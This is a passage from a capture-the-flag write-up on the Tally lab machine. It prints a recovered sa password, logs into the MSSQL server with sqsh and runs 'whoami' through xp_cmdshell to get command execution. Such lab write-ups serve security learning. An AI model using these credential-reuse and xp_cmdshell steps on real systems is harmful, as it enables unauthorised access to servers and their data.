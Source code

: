 A query for logging in a database is found, apparently on the orcharddb database woth the *sa* account, the SQL server is TALLY, so we can connect to it with the new credentials:

```aaa
User: sa
Pass: GWE3V65#6KFH93@4GWTG2G
```

---

## Exploitation: starting a shell from MSSQL using xp_cmdshell

Now we can connect to the database, I'll be using *sqsh* from command line as I first opened it with DBeaver and didn't find anything interesting in the tables, which means we are probably meant to access the console instead, which is more comfortable from terminal:

```aaa
┌─[✗]─[baud@parrot]─[~/tally]
└──╼ $sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1>
```

Once inside the database we can try using the xp_cmdshell function to execute shell commands:

```aaa
1> xp_cmdshell 'whoami'
2> go

    output                                                                                                                     
                                                                                                                                   
                                                                                                                                   
                                                                                                                               

    ---------------------------------------------------------------------------------------------------------------------------
-----------------------------------------------------------------------------------------------------------------------------------
-----------------------------------------------------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------------------------------------------------

    tally\sarah                                                                                                                
                                                                                                                                   
                                                                                                                                   
                                                                                                                               

    NULL                                                                                                                     
                                                                                                                                   
                                                                                                                               

(2 rows affected, return status = 0)
1>
```
